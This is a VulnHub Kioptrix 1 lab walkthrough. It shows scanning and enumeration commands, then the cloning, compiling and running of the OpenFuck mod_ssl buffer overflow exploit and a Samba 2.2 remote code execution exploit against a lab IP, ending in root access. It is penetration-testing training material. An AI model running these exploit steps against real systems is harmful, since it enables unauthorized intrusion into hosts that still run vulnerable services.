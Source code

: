 # Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2](https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png)

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4

This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 

Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3](https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png)

 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4](https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png)


## 2. Samba Exploit

**1.enum4linux -a 192.168.1.10**

**2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\**

**3.nmap -p 139 --script=smb-vuln* 192.168.1.10**

**4.smbmap -P 139 -H 192.168.1.10**

**5.samba_version.py Github**

https://github.com/amitn322/smb-version/blob/master/samba_version.py

**python smb-version/samba_version.py -s 192.168.1.10**

![kio5](https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png)

**Version: Samba2.2**
** searchsploit samba 2.2 **

![kio6](https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png)



**Samba < 2.2.8 (Linux/BSD) - Remote Code Execution**


![kio7](https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8](https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png)


**Rooted**
